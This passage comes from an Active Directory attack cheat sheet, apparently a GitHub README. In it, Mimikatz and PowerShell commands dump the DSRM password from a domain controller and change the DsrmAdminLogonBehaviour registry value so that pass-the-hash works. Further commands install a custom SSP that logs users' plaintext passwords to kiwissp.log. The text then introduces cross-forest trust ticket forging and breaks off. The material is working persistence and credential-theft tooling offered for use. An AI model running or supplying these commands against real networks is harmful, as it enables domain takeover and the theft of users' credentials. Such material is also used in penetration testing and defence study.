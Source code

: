 *WUT IS DIS?: Every DC has a local Administrator account, this accounts has the DSRM password which is a SafeBackupPassword. We can get this and then pth its NTLM hash to get local Administrator access to DC!*
  
```
#Dump DSRM password (needs DA privs):
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <DC's Name>

#This is a local account, so we can PTH and authenticate!
#BUT we need to alter the behaviour of the DSRM account before pth:
#Connect on DC:
Enter-PSSession -ComputerName <DC's Name>

#Alter the Logon behaviour on registry:
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose

#If the property already exists:
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
```
Then just PTH to get local admin access on DC!
### Custom SSP

*WUT IS DIS?: We can set our on SSP by dropping a custom dll, for example mimilib.dll from mimikatz, that will monitor and capture plaintext passwords from users that logged on!*

From powershell:
```
#Get current Security Package:
$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' | select -ExpandProperty  'Security Packages'

#Append mimilib:
$packages += "mimilib"

#Change the new packages name
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name 'Security Packages' -Value $packages

#ALTERNATIVE:
Invoke-Mimikatz -Command '"misc::memssp"'
```
Now all logons on the DC are logged to -> C:\Windows\System32\kiwissp.log
  
## Cross Forest Attacks

### Trust Tickets
*WUT IS DIS ?: If we have Domain Admin rights on a Domain that has Bidirectional Trust relationship with an other forest we can get the Trust key and forge our own inter-realm TGT.*
  